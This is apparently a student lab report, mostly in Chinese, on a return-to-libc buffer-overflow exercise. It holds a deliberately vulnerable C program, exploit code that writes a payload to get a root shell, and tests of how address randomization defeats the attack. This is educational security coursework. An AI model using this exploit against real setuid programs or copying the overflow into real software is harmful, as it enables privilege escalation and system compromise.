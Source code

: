 # CS315 Lab12

Name: 王奕童

SID: 11910104

## 2 Lab Tasks

### 2.3 Task 1: Finding out the addresses of libc functions

![image](https://user-images.githubusercontent.com/64548919/208232261-f2e03085-48d1-49ab-81a4-35e649dd1253.png)

`system()`: 0xb7e42da0

`exit()`: 0xb7e369d0

### 2.4 Task 2: Putting the shell string in the memory

修改后的代码：

```C
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	char* shell = getenv("MYSHELL");
	if(shell != NULL){
		printf("shell address is 0x%08x\n",(unsigned int) shell);
	}
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```

![image](https://user-images.githubusercontent.com/64548919/208232640-4338be3e-68c8-472b-83a5-bd0972527a24.png)

可以得到shell的地址是0xbffffe1c。

### 2.5 Task 3: Exploiting the Buffer-Overflow Vulnerability

带上-g参数重新编译retlib.c：


```shell
gcc -fno-stack-protector -z nonexecstack -g -o retlib retlib.c
```

![image](https://user-images.githubusercontent.com/64548919/208232872-e1a1487b-0e5d-47a4-ad14-4a9e275ca9c9.png)

通过课件上的介绍，我计算出：

X = 32, Y = 24, Z = 28

因此代码即为：

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
	char buf[40];
	FILE *badfile;
	badfile = fopen("./badfile", "w");
	memset(&buf, 0xaa, 40);
	int Y = 24, X = Y + 8, Z = Y + 4;
	printf("Y=%d X=%d Z=%d\n", Y, X, Z);
	/* You need to decide the addresses and
	the values for X, Y, Z. The order of the following
	three statements does not imply the order of X, Y, Z.
	Actually, we intentionally scrambled the order. */
	*(long *) &buf[X] = 0xbffffe1c; // "/bin/sh" ✰
	*(long *) &buf[Y] = 0xb7e42da0; // system() ✰
	*(long *) &buf[Z] = 0xb7e369d0; // exit() ✰
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
```

![image](https://user-images.githubusercontent.com/64548919/208234572-5e7a1c23-f490-45d2-9c20-c19ab3832b2e.png)

从上图可知，我们已经获得了具有root权限的shell。

#### Attack variation 1
取消里面的exit():

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
	char buf[40];
	FILE *badfile;
	badfile = fopen("./badfile", "w");
	memset(&buf, 0xaa, 40);
	int Y = 24, X = Y + 8, Z = Y + 4;
	printf("Y=%d X=%d Z=%d\n", Y, X, Z);
	/* You need to decide the addresses and
	the values for X, Y, Z. The order of the following
	three statements does not imply the order of X, Y, Z.
	Actually, we intentionally scrambled the order. */
	*(long *) &buf[X] = 0xbffffe1c; // "/bin/sh" ✰
	*(long *) &buf[Y] = 0xb7e42da0; // system() ✰
	//*(long *) &buf[Z] = 0xb7e369d0; // exit() ✰
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
```

![image](https://user-images.githubusercontent.com/64548919/208234702-fff2d6a1-2f8f-41e3-8bd6-6e3ca391350c.png)

重复执行上述流程，可以发现仍然能够获得具有root权限的shell。但这里有一点有所不同，输入exit的时候触发了段错误。

#### Attack variation 2

我将`retlib`修改为`retlib_1234`以后再次运行，可以发现攻击失败了，没能获取shell。这里失败的原因在图中可以很清楚地看到，两次shell的地址发生了变化，变化大小刚好与变化的文件名长度相同，因此不能再次触发攻击。

![image](https://user-images.githubusercontent.com/64548919/208234913-ea6a440d-0a54-409c-8845-3ae514ddc1e5.png)

### 2.6 Task 4: Turning on Address Randomization

多次编译执行，可以发现打开地址随机化后攻击失败了。这个原因解释为地址会有随机的变动，这样`exploit.c`写入的地址就没有实际意义了。

![image](https://user-images.githubusercontent.com/64548919/208235147-5c8ee8dd-1fae-443c-b9d9-2eabf34d3146.png)

这里触发了段错误的原因是system()和exit()的地址做了变动。

In the exploit.c program used in constructing badfile, we need to provide three addresses and the values for X, Y, and Z. Which of these six values will be incorrect if the address randomization is turned on. Please provide evidences in your report.

这六个值中，X，Y，Z是正确的，其对应的地址是错误的。原因是X,Y,Z仅仅是内存布局上的偏移量，不会随着地址随机化的变化而变化。

![image](https://user-images.githubusercontent.com/64548919/208236732-d45ded9a-1d49-42dc-ba88-e96abfddcbee.png)
